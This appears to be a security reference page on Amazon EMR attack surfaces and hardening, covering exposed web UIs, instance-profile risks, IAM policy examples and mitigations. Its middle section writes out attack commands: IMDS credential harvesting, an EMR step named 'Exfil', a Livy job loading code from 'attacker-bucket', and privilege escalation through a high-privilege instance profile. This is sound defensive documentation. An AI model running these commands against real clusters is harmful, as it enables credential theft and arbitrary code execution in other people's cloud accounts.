

Amazon EMR runs Apache Spark, Hadoop, Hive, Presto, and other big data frameworks on EC2 clusters. Cluster nodes expose numerous web UIs, run with EC2 instance profiles granting S3 access via EMRFS, and execute arbitrary code. IMDS credential theft, exposed web interfaces, and over-privileged instance profiles are the primary attack surface.
EMR cluster nodes are EC2 instances with an instance profile (default: EMR_EC2_DefaultRole) granting S3 access. Each node exposes IMDS at 169.254.169.254. IMDSv1 is vulnerable to SSRF-based credential theft.
EMR clusters host over a dozen web interfaces: YARN ResourceManager (8088), Spark History Server (18080), Livy REST API (8998), Hue (8888), JupyterHub (9443), Zeppelin (8890), and more.
EMR clusters run arbitrary code by design, combine multiple EC2 instances with shared credentials, expose numerous unauthenticated web interfaces, and often have instance profiles with broad S3 access. Without encryption, data at rest and in transit is unprotected.
aws emr list-clusters --activeaws emr describe-cluster --cluster-id j-XXXXXXXXXXXXXaws emr list-security-configurationsaws emr list-steps --cluster-id j-XXXXXXXXXXXXXaws emr get-block-public-access-configurationcurl http://169.254.169.254/latest/meta-data/iam/security-credentials/
# Returns role name, then:
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>aws emr add-steps --cluster-id j-XXXXXXXXXXXXX \
--steps Type=CUSTOM_JAR,Name=Exfil,Jar=command-runner.jar,Args=[bash,-c,"curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ > /tmp/creds"]curl -X POST -H "Content-Type: application/json" \
http://<emr-primary-node>:8998/batches \
-d '{"file": "s3://attacker-bucket/malicious.py"}'aws emr create-cluster --name "escalation" \
--release-label emr-6.15.0 \
--instance-type m5.xlarge --instance-count 1 \
--ec2-attributes InstanceProfile=HighPrivilegeRole{
"Effect": "Allow",
"Action": [
"elasticmapreduce:AddJobFlowSteps",
"elasticmapreduce:RunJobFlow"
],
"Resource": "*"
}Allows injecting arbitrary code steps into any EMR cluster or launching new clusters
{
"Effect": "Allow",
"Action": [
"elasticmapreduce:DescribeCluster",
"elasticmapreduce:ListSteps",
"elasticmapreduce:ListInstances"
],
"Resource": "arn:aws:elasticmapreduce:*:*:cluster/*"
}Read-only access scoped to cluster monitoring
{
"Effect": "Allow",
"Action": "s3:*",
"Resource": "*"
}Any code on the cluster can read/write/delete any S3 object in the account
Require IMDSv2 session tokens to block SSRF-based credential theft. Use EC2 launch templates with HttpTokens: required.
Create a security configuration with SSE-KMS for S3, LUKS for local disk, and TLS for in-transit.
Prevents launching clusters with security groups allowing public inbound traffic except SSH (22).
aws emr get-block-public-access-configurationPlace EMR clusters in private subnets with no public IPs. Use SSH tunnels or ALB with auth for web UI access.
Configure Kerberos for user-level authentication before accessing HDFS, Hive, Spark.
Replace EMR_EC2_DefaultRole with a custom role granting only specific S3 buckets and prefixes.